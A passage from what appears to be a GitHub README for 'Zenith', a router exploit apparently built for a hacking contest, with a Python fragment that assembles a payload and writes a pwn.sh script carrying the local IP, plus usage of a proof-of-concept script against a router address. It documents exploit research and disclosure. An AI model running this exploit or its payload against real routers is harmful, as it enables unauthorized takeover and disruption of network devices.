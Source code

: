 ```py
    os.system(f'rm sh.o sh {tmp_payload} payload.txt')

    # Fix ip in pwn.sh.
    os.system(f'rm pwn.sh')
    r = open('pwn_base.sh', 'r').read()
    with open('pwn.sh', 'w') as f:
        f.write(r.format(ip_local = ip_local))

    return payload
```

### Am I vulnerable?

To verify if your router is vulnerable it is recommended to run [src/zenith-poc.py](src/zenith-poc.py).

```bash
$ python3 zenith-poc.py --target 192.168.127.1
```

If your device is vulnerable, the lights should stay on for a few seconds after the script is done then turn off and the router should automatically reboot. Pay attention, because it can be a bit subtle to see :)

<p align='center'>
<img src='pics/zenith-blink.gif'>
</p>

### Running Zenith
**Disclaimer: The exploit isn't reliable and that's it unfortunately failed to land during the contest 😅**

For every attempt:
1. Boot the device and start a stopwatch to wait for 3min. This is the time required for the device to reach a stable booted state.
2. Run the exploit when the stopwatch hit the 3min mark.
